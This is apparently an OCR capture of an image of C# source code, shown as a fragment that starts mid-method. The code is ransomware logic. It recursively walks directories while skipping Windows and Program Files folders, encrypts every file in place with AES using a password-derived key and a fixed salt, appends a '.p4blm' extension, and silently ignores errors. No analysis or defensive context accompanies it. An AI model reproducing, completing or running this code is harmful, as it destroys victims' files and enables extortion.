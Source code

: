 ```csharp
				{
					EncryptFile(files[i], password);
				}
			}
			for (int j = 0; j < directories.Length; j++)
			{
				if (!directories[j].Contains("Windows") && !directories[j].Contains("Program Files") && !directories[j].Contains("Program Files (x86)"))
				{
					EncryptDirectory(directories[j], password);
				}
			}
		}
		catch
		{
		}
	}

	public static void EncryptFile(string file, string password)
	{
		byte[] bytesToBeEncrypted = File.ReadAllBytes(file);
		byte[] bytes = Encoding.UTF8.GetBytes(password);
		bytes = SHA256.Create().ComputeHash(bytes);
		byte[] bytes2 = AES_Encrypt(bytesToBeEncrypted, bytes);
		try
		{
			File.WriteAllBytes(file, bytes2);
			string text = ".p4blm";
			File.Move(file, file + text);
		}
		catch (UnauthorizedAccessException)
		{
		}
	}

	public static byte[] AES_Encrypt(byte[] bytesToBeEncrypted, byte[] passwordBytes)
	{
		byte[] array = null;
		byte[] salt = new byte[8] { 1, 8, 3, 6, 2, 4, 9, 7 };
		using MemoryStream memoryStream = new MemoryStream();
		using RijndaelManaged rijndaelManaged = new RijndaelManaged();
		rijndaelManaged.KeySize = 256;
		rijndaelManaged.BlockSize = 128;
		Rfc2898DeriveBytes rfc2898DeriveBytes = new Rfc2898DeriveBytes(passwordBytes, salt, 1000);
		rijndaelManaged.Key = rfc2898DeriveBytes.GetBytes(rijndaelManaged.KeySize / 8);
		rijndaelManaged.IV = rfc2898DeriveBytes.GetBytes(rijndaelManaged.BlockSize / 8);
		rijndaelManaged.Mode = CipherMode.CBC;
		using (CryptoStream cryptoStream = new CryptoStream(memoryStream, rijndaelManaged.CreateEncryptor(), CryptoStreamMode.Write))
		{
			cryptoStream.Write(bytesToBeEncrypted, 0, bytesToBeEncrypted.Length);
			cryptoStream.Close();
		}
		return memoryStream.ToArray();
	}
}

internal class Program
{
	private static void Main(string[] args)
	{
		Execute();
	}
```